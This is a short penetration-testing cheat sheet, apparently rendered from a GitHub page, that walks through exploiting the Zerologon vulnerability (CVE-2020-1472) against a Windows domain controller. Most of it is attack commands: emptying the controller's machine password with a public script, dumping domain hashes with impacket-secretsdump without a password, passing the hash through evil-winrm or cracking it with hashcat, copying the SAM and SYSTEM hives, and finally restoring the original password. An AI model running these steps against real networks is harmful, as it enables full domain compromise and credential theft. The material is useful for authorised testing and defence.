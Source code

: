 ## CVE-2020-1472 Zerologon

#### As the name implies, if the machine is vulnerable to Zerologon, it can reset the administrator credentials to an empty string, then attempt to dump the hashes via secretsdump without having to use a password.

### Tools: Impacket-secretsdump, https://github.com/risksense/zerologon, https://github.com/SecuraBV/CVE-2020-1472

#### 1) python3 set_empty_pw.py NETBIOS_NAME DC_IP 

#### 2) If attempt was successful, then: impacket-secretsdump -just-dc -no-pass NETBIOS_NAME\$DC_IP

#### 3) When you dump the domain admin hash, you can use it to Pass-the-Hash via evil-winrm or attempt to crack it offline with hashcat

#### 4) At login, copy the SAM and SYSTEM hives to your local machine, then dump them offline (Alternative to secretsdump)

#### 5) python3 reinstall_original_pw.py NETBIOS_NAME DC_IP ORIGINAL_NTLM_ADMIN_HASH (Reinstalls the original password that the admin had to prevent permanent damage on the machine)
